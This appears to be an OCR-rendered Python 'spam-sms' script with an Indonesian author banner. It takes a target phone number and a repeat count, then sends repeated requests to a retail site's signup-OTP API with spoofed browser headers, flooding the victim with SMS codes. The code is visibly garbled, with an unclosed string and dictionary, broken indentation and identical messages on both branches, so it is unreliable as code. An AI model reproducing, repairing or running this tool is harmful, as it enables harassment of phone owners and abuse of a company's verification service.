 import json
import requests
import sys
import os
def main():
        os.system('clear')
        os.system('figlet spam-sms')
        banner='''


        [+]AUTHOR :Rifal di
        [+]Facebook :Dani gamteng
        '''

        print(banner)
        no = input('target : ')
        jum = input('jumlah spam : ')

        head = {
        "User-Agent": Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.101 Mobile Safari/537.36",
            "Referer": "https://www.mapclub.com/en/user/signup",
            "Host": "cmsapi.mapclub.com",
                    }


        dat = {
        'phone' : no

        for x in range(int(jum)):
                leosureo = requests.post("https://cmsapi.mapclub.com/api/signup-otp", headers=head, json=dat)
        if 'eror' in  leosureo :
        print('gagal mengirim' +  no)
else :
         print('gagal mengirim' +  no)
